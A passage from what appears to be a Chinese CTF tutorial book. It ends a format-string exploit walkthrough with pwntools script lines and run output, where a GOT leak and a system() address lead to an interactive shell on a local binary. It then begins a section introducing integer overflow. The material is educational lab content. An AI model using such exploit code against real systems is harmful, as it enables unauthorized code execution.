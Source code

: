 ```python
r.send('/bin/sh')
r.recv()
r.interactive()
$ python2 exp.py
[*] '/home/firmy/Desktop/RE4B/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './a.out': pid 17375
[*] '/usr/lib32/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Found format string offset: 4
[+] printf_got => 0x804a010
[+] printf_addr => 0xf7e26bf0
[+] system_addr => 0xf7e17060
[*] Switching to interactive mode
$ echo "hacked!"
hacked!
```

这样我们就获得了 shell，可以看到输出的信息和我们手工得到的信息完全相同。

## 3.1.2 整数溢出

- [什么是整数溢出](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.2_integer_overflow.html#什么是整数溢出)
- [整数溢出](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.2_integer_overflow.html#整数溢出)
- [整数溢出示例](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.2_integer_overflow.html#整数溢出示例)
- [CTF 中的整数溢出](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.2_integer_overflow.html#ctf-中的整数溢出)

## 什么是整数溢出

### 简介

在 C 语言基础的章节中，我们介绍了 C 语言整数的基础知识，下面我们详细介绍整数的安全问题。

由于整数在内存里面保存在一个固定长度的空间内，它能存储的最大值和最小值是固定的，如果我们尝试去存储一个数，而这个数又大于这个固定的最大值时，就会导致整数溢出。（x86-32 的数据模型是 ILP32，即整数（Int）、长整数（Long）和指针（Pointer）都是 32 位。）

### 整数溢出的危害

如果一个整数用来计算一些敏感数值，如缓冲区大小或数值索引，就会产生潜在的危险。通常情况下，整数溢出并没有改写额外的内存，不会直接导致任意代码执行，但是它会导致栈溢出和堆溢出，而后两者都会导致任意代码执行。由于整数溢出出现之后，很难被立即察觉，比较难用一个有效的方法去判断是否出现或者可能出现整数溢出。
